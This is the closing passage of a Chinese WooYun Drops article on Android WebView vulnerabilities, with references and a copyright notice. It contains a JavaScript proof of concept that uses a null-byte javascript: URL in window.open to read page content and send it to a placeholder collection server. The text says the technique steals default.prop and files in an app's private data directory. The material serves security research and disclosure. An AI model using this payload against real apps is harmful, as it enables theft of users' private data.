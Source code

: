 test.js

```
var flag = 0;
function exploit2(){
  if(flag) {return}
 window.open('\u0000javascript:location.replace("http://site/cross/test.php?test="+escape(document.body.innerHTML))','test2');
  flag = 1;
} 
```

服务端接收到 android 的 default.prop 文件内容。也可以窃取相应 app 私有目录/data/data/packagename/下文件

![](img/img8_u50_png.jpg)

## 0x06 参考

* * *

[RAyH4c（茄子）《细数安卓 WebView 的那些神洞》](http://static.wooyun.org/upload/summit-wooyun-RAyH4c.zip)

[`zone.wooyun.org/content/15792`](http://zone.wooyun.org/content/15792)

[8](http://static.wooyun.org/20141020/2014102009073782598_jpg.jpg): http://developer.android.com/intl/zh-cn/reference/android/webkit/WebViewClient.html#onPageStarted(android.webkit.WebView, java.lang.String, android.graphics.Bitmap)

版权声明：未经授权禁止转载 [瘦蛟舞](http://drops.wooyun.org/author/瘦蛟舞 "由 瘦蛟舞 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：碎银子打赏，作者好攒钱娶媳妇：

![](img/img19_u13_jpg.jpg)